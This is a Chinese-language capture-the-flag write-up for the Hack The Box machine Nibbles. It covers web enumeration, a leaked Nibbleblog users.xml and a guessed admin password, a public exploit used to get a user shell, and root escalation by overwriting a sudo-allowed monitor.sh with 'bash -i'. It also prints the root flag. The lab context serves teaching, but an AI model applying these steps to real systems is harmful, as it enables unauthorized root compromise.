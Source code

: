 # Nibbles

- victim
  - 10.10.10.75
- local
  - 10.10.14.19

---

## 扫描结果分析

简单扫描只有22和80，先看看Web吧，重度扫描也一样

## Web服务分析

根据HTML里的注释，到`/nibbleblog/`，一个基于Nibbleblog的博客，用nikto进一步扫描一下

```bash
nikto --url http://10.10.10.75/nibbleblog/
```

```
Cookie PHPSESSID created without the httponly flag
```

简单一看，存在任意文件流量，文件夹index可用

EDB上也找到两个EXP，都试试吧

下面是一个重要的泄露文件

- http://10.10.10.75/nibbleblog/content/private/users.xml

通过它可以找到用户名为admin

密码是nibbles，通过手工猜测，或者cewl等工具猜测后爆破

根据EDB上找到的EXP，进行攻击，相关设置见res下的图片

成功得到user shell

```shell
download /home/nibbler/user.txt
```

## 提权

```shell
download /home/nibbler/personal.zip
```

LinEnum.sh

```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

```bash
mkdir /home/nibbler/personal/stuff/ -p
cd /home/nibbler/personal/stuff/
echo "bash -i" > monitor.sh
chmod +x monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

稍等一会，getshell √

root.txt

```
b6d745c0dfb6457c55591efc898ef88c
```

